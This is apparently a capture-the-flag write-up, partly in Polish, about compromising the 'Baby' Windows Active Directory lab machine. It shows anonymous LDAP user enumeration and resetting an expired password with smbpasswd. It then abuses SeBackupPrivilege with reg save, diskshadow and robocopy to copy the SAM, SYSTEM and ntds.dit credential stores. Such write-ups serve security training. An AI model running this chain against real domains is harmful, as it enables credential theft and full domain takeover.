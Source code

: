 # Baby
Windows, Easy, created by **xct**

![baby_slide](https://github.com/user-attachments/assets/082cfa7b-36ab-418a-afe6-a5b75320d366)


```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-26 08:44:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
ssl-cert: Subject: commonName=BabyDC.baby.vl
...
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
53239/tcp open  msrpc         Microsoft Windows RPC
53253/tcp open  msrpc         Microsoft Windows RPC
```

```
echo "10.10.89.70 BabyDC.baby.vl baby.vl" >> /etc/hosts
```

```
dig @10.10.89.70 baby.vl
dig @10.10.89.70 baby.vl any
dig @10.10.89.70 baby.vl axrf
```
- nic ciekawego


No null, no guest session via smb.

![{9F23BCB3-F7E6-4E41-AB9D-89C8852F8CE5}](https://github.com/user-attachments/assets/462aab06-e337-41c8-bef9-5442b8cb96d6)

Ogólnie nic nie ma to sprawdzę czy do ldapa można bez usera się dostać
```
ldapsearch -x -H ldap://10.10.89.70 -D '' -w '' -b "DC=baby,DC=vl"
```

![{BFD17E9E-A268-480B-B644-237436A4ADED}](https://github.com/user-attachments/assets/f455cfe1-9fd5-4e58-a372-ad8eba159bf0)

we see something there


```
ldapsearch -x -H ldap://10.10.89.70 -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName | cut -d' ' -f2
```

![{5FB611B1-D9D0-44D6-87E5-1B4EAD672E02}](https://github.com/user-attachments/assets/6c3a0a6e-a8ee-407f-92e8-bf8aa7345e1a)

Jak mamy listę userów to polecimy klasykiem.

![{4B4219DC-CBF2-4D94-8C4E-6DD2D24D9528}](https://github.com/user-attachments/assets/ba5ceec1-6a9b-4a7a-8105-78333d2686ed)

ASREPRoasting fail

![{EE5192F3-15B6-4C90-8FB3-05013550A93B}](https://github.com/user-attachments/assets/89843b46-55ac-4089-a7e4-5ebf01257811)

ech it was description

![{E58F30D7-4653-4272-94AF-19DB59B6ACAF}](https://github.com/user-attachments/assets/17edc28d-8a60-4136-9e1a-bb0a16d795f0)

Albo nie :O
Co oni wymyślili?!

I checked the list of users again and it turns out that there are users who do not have paramter sAMAccountName

![{6E9C9A56-AE8A-465F-A998-2008C70D9C73}](https://github.com/user-attachments/assets/654b0a80-660e-4633-903f-c19abc68c670)
![{BE2C2424-F88C-45A1-9EE8-730B2696E653}](https://github.com/user-attachments/assets/9cfa8d34-50fd-4e72-935c-28cfae165bef)

```
ldapsearch -x -H ldap://10.10.89.70 -D '' -w '' -b "DC=baby,DC=vl" | grep dn: | cut -d'=' -f2 | cut -d, -f1 | tr ' ' '.'
```
![{F3ABCCCD-8A06-4A52-8287-252A5BFB24B2}](https://github.com/user-attachments/assets/50da1e5a-ce89-4482-9e62-fd26ee516d1c)

![{39E466E0-B148-4784-9A05-0BFFC184830F}](https://github.com/user-attachments/assets/8a06d765-a5f2-4217-95bf-49302578dfe8)

STATUS_PASSWORD_MUST_CHANGE
```
smbpasswd -U Caroline.Robinson -r 10.10.89.70
```

![{E2A3A909-2A2F-455D-B940-35C46126032A}](https://github.com/user-attachments/assets/c9e57702-fd9b-42e3-a799-7aa52e35a1c3)

![{1DAD1931-193A-4363-914B-3DC3C56B597B}](https://github.com/user-attachments/assets/1189e939-9095-4286-b3db-b3db1e3437f0)
read/Write C$? Interesting xD

o wjazd po winrm

![{49FC9E8A-FB91-446B-AA50-B71AA45F2A35}](https://github.com/user-attachments/assets/67067135-d617-4db5-bb62-e2a924bcbd3f)

![{98B0AEE6-3A4B-40B0-BF95-E7C29E5E3E7B}](https://github.com/user-attachments/assets/ed00d99e-ed9c-4376-8f64-63036568f75f)

![{3CA90E08-6F58-43E0-9B58-85B9BC1317E6}](https://github.com/user-attachments/assets/b7e09166-4eb4-48ab-8164-3e7b416d53a8)

```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
download sam
download system
```

![{E1B9D64E-02B8-4902-AD56-84AA9054126F}](https://github.com/user-attachments/assets/c4e4d3be-76e7-44b2-91d4-0edd4c6f6574)

hmmm

![{C332498A-7A16-40BA-9179-3A86B4C80C66}](https://github.com/user-attachments/assets/81d1a786-8cc3-4208-bec6-fc4af8e26134)

Let's try another way

```
nano raj.dsh

set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
unix2dos raj.dsh
```

![{1CA6321B-24AB-40D6-BBBA-BF8B19B9238F}](https://github.com/user-attachments/assets/aa71d022-71d8-4dc6-9630-c2055813f850)

```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

![{6E007FA0-B16F-4C96-B6F9-AA02B8152875}](https://github.com/user-attachments/assets/48fff03e-1aa4-49bb-99eb-550b759d8ceb)

```
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system
```

![{3CAA4816-29A3-4B2C-BEFD-262E4BAD2927}](https://github.com/user-attachments/assets/42c7db08-be85-45ee-a8bd-c6ecfefa9f90)

![{AF5CC262-F782-45E5-995D-329998C466AA}](https://github.com/user-attachments/assets/a88d9ee5-e8ba-46f0-829f-4b5c67af8dd9)
